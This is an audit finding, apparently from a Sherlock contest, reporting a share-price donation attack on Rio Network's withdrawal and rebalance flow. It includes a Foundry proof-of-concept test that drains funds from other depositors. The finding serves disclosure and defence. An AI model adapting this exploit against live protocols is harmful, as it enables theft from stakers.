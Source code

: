Rural Tweed Lemur

high

# It's possible to steal funds via donations to Eigenlayer strategies

## Summary
It's possible to steal funds from the protocol by donating assets an Eigenlayer strategy.

## Vulnerability Detail
When requesting a withdrawal for an asset via [RioLRTCoordinator::requestWithdrawal()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99) the protocol calculates the amount of shares owed to the caller based on:
1. The amount of `LRTTokens` that are being withdrawn
2. The current conversion rate of the asset Eigenlayer strategy via [IStrategy(strategy).underlyingToSharesView()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTAssetRegistry.sol#L220)

Then the withdrawal gets queued and the amount of shares owed cached by the protocol, we will call this `sharesOwed`.

The next step o complete the withdrawal is to call [RioLRTCoordinator::rebalance()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L121) where the protocol retrieves the `sharesOwed` for the epoch and converts the value back to assets via the current conversion rate of the asset Eigenlayer strategy via [IStrategy(strategy).sharesToUnderlyingView()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTAssetRegistry.sol#L230).

It's possible to extract value by donating tokens to the Eigenlayer strategy after [RioLRTCoordinator::requestWithdrawal()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99) is called, but before [RioLRTCoordinator::rebalance()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L121). This works because when [RioLRTCoordinator::requestWithdrawal()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99) is called the amount of shares owed is cached based on the current conversion rate of the strategy and when [RioLRTCoordinator::rebalance()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L121) is called, and the amount of shares owed converted back, those same shares will be worth more.

This attack is profitable when the increase in value of `sharesOwed` after the donation is bigger than the donation itself, which is possible because `sharesOwed` isn't necessarily deposited in the strategy and can just be the value expressed in shares of the amount of assets held in the deposit pool. As an extreme and simplified example, the Eigenlayer strategy can have 0 total shares minted but if the deposit pool contains `100e18` unit of asset it will be valued (assuming 1:1) at `100e18` shares. If then requested for withdrawal the `sharesOwed` parameter will be set at `100e18`. 

### POC
1. An LRT with 1 asset, `rETH`, has 100e18 rETH of deposits.
2. A new asset, `cbETH`, is added to the LRT. The Eigenlayer strategy of `cbETH` only has 1e18 `cbETH` staked.
3. An attacker deposits 100e18 `cbETH` in the LRT, receiving `LRTtokens`.
4. The attacker requests two withdrawals, half of his `LRTTokens` to withdraw `cbETH` and the other half to withdraw `rETH`.
5. The attacker transfers 1e18 `cbETH` to the Eigenlayer strategy directly. This doubles the value of each share.
6. Rebalance on `cbETH` is called, but because the share price is doubled all of the funds initially deposited by the attacker are withdrawn even if only half of the `LRTTokens` were used. The attacker recovered his initial deposit.
7. Rebalance on `rETH` is called and the other half of `LRTTokens` is used to withdraw `rETH`.

Copy-paste in `RioLRTCoordinator.t.sol`:

```solidity
function test_drainLiquidityViaDonation() public {
    //-> Setup
    address attacker = makeAddr("attacker");
    address previousLRTDepositors = makeAddr("previousLRTDepositors");
    address strategyStakers = makeAddr("strategyStakers");
    deal(CBETH_ADDRESS, attacker, 101e18);
    deal(RETH_ADDRESS, previousLRTDepositors, 100e18);
    deal(CBETH_ADDRESS, strategyStakers, 100e18);
    vm.startPrank(attacker);
    cbETH.approve(address(reLST.coordinator), type(uint256).max);
    cbETH.approve(address(CBETH_STRATEGY), type(uint256).max);
    cbETH.approve(address(strategyManager), type(uint256).max);
    reLST.token.approve(address(reLST.coordinator), type(uint256).max);
    vm.stopPrank();
    vm.startPrank(previousLRTDepositors);
    rETH.approve(address(reLST.coordinator), type(uint256).max);
    rETH.approve(address(strategyManager), type(uint256).max);
    reLST.token.approve(address(reLST.coordinator), type(uint256).max);
    vm.stopPrank();

    //-> The LRT has 100e18 rETH of liquidity
    vm.prank(previousLRTDepositors);
    reLST.coordinator.deposit(RETH_ADDRESS, 100e18);

    //-> The cbETH strategy of EigenLayer has 1e18 cbETH of liquidity
    vm.startPrank(strategyStakers);
    cbETH.approve(address(strategyManager), type(uint256).max);
    strategyManager.depositIntoStrategy(address(CBETH_STRATEGY), CBETH_ADDRESS, 1e18);
    vm.stopPrank();
    
    //->Cache starting balances of Alice
    uint256 attackerInitialcbETHBalance = cbETH.balanceOf(attacker);
    uint256 attackerInitialrETHBalance = rETH.balanceOf(attacker);

    //-> Alice deposits 100e18 cbETH
    vm.prank(attacker);
    reLST.coordinator.deposit(CBETH_ADDRESS, 100e18);

    //-> Alice requests two withdrawals:
    //  1. Withdraw cbETH with half of his LRTTokens
    //  2. Withdraw rETH with the other half
    vm.startPrank(attacker);
    reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, reLST.token.balanceOf(attacker)/2);
    reLST.coordinator.requestWithdrawal(RETH_ADDRESS, reLST.token.balanceOf(attacker));
    vm.stopPrank();
    
    //-> Alice donates 1e18 cbETH to the Eigenlayer strategy directly, because the strategy already has 1e18
    //cbETH in liquidity adding an extra 1e18 will double the value
    vm.prank(attacker);
    cbETH.transfer(address(CBETH_STRATEGY), 1e18);

    //-> Rebalance is called on for both the cbETH and rETH assets
    skip(reLST.coordinator.rebalanceDelay());
    vm.startPrank(EOA, EOA);
    reLST.coordinator.rebalance(CBETH_ADDRESS);
    reLST.coordinator.rebalance(RETH_ADDRESS);
    vm.stopPrank();

    //-> Alice completes her withdrawals
    //  1. All of the 100e18 cbETH she initially deposited are withdrawn by using only half of her LRTTokens, because we doubled the shares value
    //  2. ~48e18 rETH are withdrawn using the other half of her LRTTokens
    vm.startPrank(attacker);
    reLST.withdrawalQueue.claimWithdrawalsForEpoch(IRioLRTWithdrawalQueue.ClaimRequest({asset: CBETH_ADDRESS, epoch: 0}));
    reLST.withdrawalQueue.claimWithdrawalsForEpoch(IRioLRTWithdrawalQueue.ClaimRequest({asset: RETH_ADDRESS, epoch: 0}));
    vm.stopPrank();

    //-> Alice profited
    uint256 CBETH_TO_ETH = 1.0555 ether; //setted in setup
    uint256 RETH_TO_ETH = 1.0961 ether; //setted in setup
    uint256 attackerFinalcbETHBalance = cbETH.balanceOf(attacker);
    uint256 attackerFinalrETHBalance = rETH.balanceOf(attacker);
    uint256 attackerInitialValueInETH = attackerInitialcbETHBalance * CBETH_TO_ETH / 1e18 + attackerInitialrETHBalance * RETH_TO_ETH / 1e18;
    uint256 attackerFinalBalanceInETH = attackerFinalcbETHBalance * CBETH_TO_ETH / 1e18 + attackerFinalrETHBalance * RETH_TO_ETH / 1e18;

    assertGt(attackerFinalBalanceInETH, attackerInitialValueInETH);
}
```
## Impact
Funds can be stolen from stakers.

## Code Snippet

## Tool used

Manual Review

## Recommendation
Maybe I'm missing something but a fix for this doesn't seem trivial, maybe the idea to deposit the assets into the strategies immediately should be taken in considered.
